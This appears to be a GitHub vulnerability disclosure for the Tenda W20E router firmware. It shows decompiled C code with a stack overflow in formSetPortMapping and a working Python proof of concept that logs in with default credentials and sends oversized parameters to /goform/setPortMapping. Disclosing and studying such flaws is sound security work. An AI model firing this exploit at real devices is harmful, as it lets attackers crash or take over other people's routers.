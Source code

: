 # Tenda W20E

### version

```
V15.11.0.6 （US_W20EV4.0br_V15.11.0.6（1068_1546_841）_CN_TDC）
```

### Firmware

```
https://www.tenda.com.cn/download/detail-2707.html
```



## setStaticRoute

### detail

In function formSetPortMapping,the content obtained by the program from the parameter "portMappingServer","portMappingProtocol","portMappingWan","porMappingtInternal","portMappingExternal" are passed to pLanIP,pProtocl,pWanid,pLanPortRange and pWanPortRange.Then the pLanIP,pProtocl,pWanid,pLanPortRange and pWanPortRange are directly copied into the sMibValue stack through the sprintf function.There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void __cdecl formSetPortMapping(webs_t wp, char_t *path, char_t *query)
{
  int v3; // r3
  int v4; // r0
  unsigned __int8 sNetctlParm[32]; // [sp+20h] [bp-164h] BYREF
  unsigned __int8 sMibName[32]; // [sp+40h] [bp-144h] BYREF
  unsigned __int8 sMibValue[256]; // [sp+60h] [bp-124h] BYREF
  char_t *pWanPortRange; // [sp+160h] [bp-24h]
  char_t *pLanPortRange; // [sp+164h] [bp-20h]
  char_t *pWanid; // [sp+168h] [bp-1Ch]
  char_t *pProtocl; // [sp+16Ch] [bp-18h]
  char_t *pLanIP; // [sp+170h] [bp-14h]
  char_t *pPortMapIndex; // [sp+174h] [bp-10h]
  int iListNum; // [sp+178h] [bp-Ch]
  int iPortMapIndex; // [sp+17Ch] [bp-8h]

  memset(sMibValue, 0, sizeof(sMibValue));
  *(_DWORD *)sMibName = 0;
  *(_DWORD *)&sMibName[4] = 0;
  *(_DWORD *)&sMibName[8] = 0;
  *(_DWORD *)&sMibName[12] = 0;
  *(_DWORD *)&sMibName[16] = 0;
  *(_DWORD *)&sMibName[20] = 0;
  *(_DWORD *)&sMibName[24] = 0;
  *(_DWORD *)&sMibName[28] = 0;
  *(_DWORD *)sNetctlParm = 0;
  *(_DWORD *)&sNetctlParm[4] = 0;
  *(_DWORD *)&sNetctlParm[8] = 0;
  *(_DWORD *)&sNetctlParm[12] = 0;
  *(_DWORD *)&sNetctlParm[16] = 0;
  *(_DWORD *)&sNetctlParm[20] = 0;
  *(_DWORD *)&sNetctlParm[24] = 0;
  *(_DWORD *)&sNetctlParm[28] = 0;
  iPortMapIndex = 0;
  iListNum = 0;
  pPortMapIndex = websGetVar(wp, "portMappingIndex", byte_E45DC);
  iPortMapIndex = atoi((const char *)pPortMapIndex);
  if ( iPortMapIndex + 1 <= 20 )
  {
    pLanIP = websGetVar(wp, "portMappingServer", byte_E45DC);
    pProtocl = websGetVar(wp, "portMappingProtocol", byte_E45DC);
    pWanid = websGetVar(wp, "portMappingWan", byte_E45DC);
    pLanPortRange = websGetVar(wp, "porMappingtInternal", byte_E45DC);
    pWanPortRange = websGetVar(wp, "portMappingExternal", byte_E45DC);
    sprintf(
      (char *)sMibValue,
      "%s;%s;%s;%s;%s;%d",
      (const char *)pWanid,
      (const char *)pWanPortRange,
      (const char *)pLanPortRange,
      (const char *)pLanIP,
      (const char *)pProtocl,
      1);
    sprintf((char *)sMibName, "adv.virtualser.list%d", iPortMapIndex + 1);
    SetValue(sMibName, sMibValue);
    GetValue((int)"adv.virtualser.listnum", (int)sMibValue);
    iListNum = atoi((const char *)sMibValue);
    log_debug_print("formSetPortMapping", 82, 2, 65, "index = %d, listnum = %d", iPortMapIndex, iListNum);
    v3 = iPortMapIndex + 1;
    if ( iListNum >= iPortMapIndex + 1 )
      v3 = iListNum;
    iListNum = v3;
    memset(sMibValue, 0, sizeof(sMibValue));
    sprintf((char *)sMibValue, "%d", iListNum);
    v4 = SetValue("adv.virtualser.listnum", sMibValue);
    if ( CommitCfm(v4) )
    {
      sprintf((char *)sNetctlParm, "advance_type=%d", 2);
      send_msg_to_netctrl(5, sNetctlParm);
    }
    outputToWebs(wp, "1");
  }
  else
  {
    puts("Port map list out of range");
  }
  outputToWebs(wp, "-1");
}
```



### poc

```python
import requests

cmd  = b'portMappingIndex=' + b'9' 
cmd += b'&portMappingServer=' + b'A' * 500
cmd += b'&portMappingProtocol=' + b'A' * 500
cmd += b'&portMappingWan=' + b'A' * 500
cmd += b'&porMappingtInternal=' + b'A' * 500
cmd += b'&portMappingExternal=' + b'A' * 500

url = b"http://192.168.0.1/login/Auth"
payload = b"http://192.168.0.1/goform/setPortMapping/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```
